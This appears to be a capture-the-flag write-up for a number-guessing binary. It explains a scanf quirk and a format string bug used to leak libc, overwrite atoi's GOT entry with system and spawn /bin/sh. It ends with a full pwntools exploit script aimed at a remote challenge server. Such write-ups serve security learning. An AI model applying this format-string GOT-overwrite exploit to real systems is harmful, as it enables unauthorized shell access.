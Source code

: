 So, if lucky number is 0x44, and we input "-" when entering choice. The choice is still 0x44!! (scanf will not change the value of 0x44 if we enter "-"). The probability is 1/100 :)).

What do we do next
![image](https://hackmd.io/_uploads/Syzo-6ogyg.png)
We can use format string bug (input "-") multiple times. First, leak GOT to get the address of libc and use libc.rip to find the libc version. Then, overwrite atoi@got to the address of the system. Finally, enter "1" to enter the play_401480() function. In the play_401480() function, it will call the sub_4013BB() function.
![image](https://hackmd.io/_uploads/Sk7izTolJx.png)
In read, we enter "/bin/sh\x00". Then atoi(buf) will be equivalent to system(buf) => system("/bin/sh")

![image](https://hackmd.io/_uploads/rk8Vmpil1e.png)

Script
```python=0
#!/usr/bin/python3

from ctypes import CDLL
from pwn import *

context.binary = elf = ELF("./chal_patched")



while True:
	#r = process(elf.path)
	r = remote("152.69.210.130", 2004)

	r.recvuntil(b"2. Exit\n")
	r.sendline(b"-")

	test = r.recv(5)
	if test == b"Enter":
		break

	r.close()



payload = b"%7$s".ljust(8, b"\x00")
payload += p64(elf.got['printf'])
r.sendlineafter(b"your name: ", payload)

leak = u64(r.recv(6)+b"\x00"*2)
print("[*] leak: ", hex(leak))

libc_addr = leak - 0x606f0
system = libc_addr + 0x50d70


#### overwrite got
fmt_payload = fmtstr_payload(6, {elf.got['atoi'] : system}, write_size='short')

r.recvuntil(b"2. Exit\n")
r.sendline(b"-")
r.sendlineafter(b"your name: ", fmt_payload)


r.sendlineafter(b"2. Exit\n", b"1")
r.sendlineafter(b"Enter your guess: ", b"/bin/sh\x00")
r.interactive()
```